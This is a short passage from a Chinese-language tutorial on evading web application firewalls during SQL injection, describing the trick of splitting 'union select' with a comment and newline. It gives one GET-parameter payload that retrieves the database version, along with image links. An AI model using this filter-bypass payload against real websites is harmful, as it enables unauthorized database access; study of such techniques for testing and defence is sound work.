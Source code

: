 ![image.png](04.SQL%E6%B3%A8%E5%85%A5%E7%BB%95%E8%BF%87/1677738580241-faafacdb-87af-45ba-99d6-749abed79a1c.png)

# 换行混绕绕过★★ 

目前很多 waf 都会对 union select 进行过滤，因为联合查询使用了这两个关键词，一般过滤这个两个字符，想用联合查询就很难了。可以使用换行 加上一些注释符进行绕过。

## GET型 

使用命令：

```sql
?id=-1' union /*sdfqwdsgs123456*/select 1,version(),3--+
```

![image.png](04.SQL%E6%B3%A8%E5%85%A5%E7%BB%95%E8%BF%87/1677738693054-f722deae-c1cd-499a-81e4-26dec3dca69b.png)